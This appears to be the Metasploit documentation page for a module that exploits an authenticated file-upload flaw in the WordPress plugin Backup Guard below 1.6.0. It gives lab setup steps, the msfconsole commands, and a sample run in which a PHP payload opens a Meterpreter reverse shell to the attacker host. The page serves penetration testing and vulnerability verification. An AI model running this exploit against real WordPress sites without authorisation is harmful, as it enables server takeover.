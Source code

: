 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin Backup Guard < 1.6.0.
This is due to an incorrect check of the uploaded file extension which should be of SGBP type.
Then, the uploaded payload can be triggered by a call to `/wp-content/uploads/backup-guard/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of Backup Guard plugin from [there]
(https://downloads.wordpress.org/plugin/backup.1.5.8.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_backup_guard_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_rconfig>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and Backup Guard 1.5.8.
See the following output :

```
msf6 > use wordpress_plugin_backup_guard_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(wordpress_plugin_backup_guard_rce) > set username admin
username => admin
msf6 exploit(wordpress_plugin_backup_guard_rce) > set password your_best_password
password => your_best_password
msf6 exploit(wordpress_plugin_backup_guard_rce) > set rhosts 192.168.37.1
rhosts => 192.168.37.1
msf6 exploit(wordpress_plugin_backup_guard_rce) > run

[*] Started reverse TCP handler on 192.168.37.133:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 1.5.8 of plugin Backup Guard found !
[+] The target is vulnerable. This version of Backup Guard is vulnerable !
[*] Uploading file 'fsygw.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.37.1
[*] Meterpreter session 1 opened (192.168.37.133:4444 -> 192.168.37.1:52688) at 2021-07-08 16:44:01 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
```
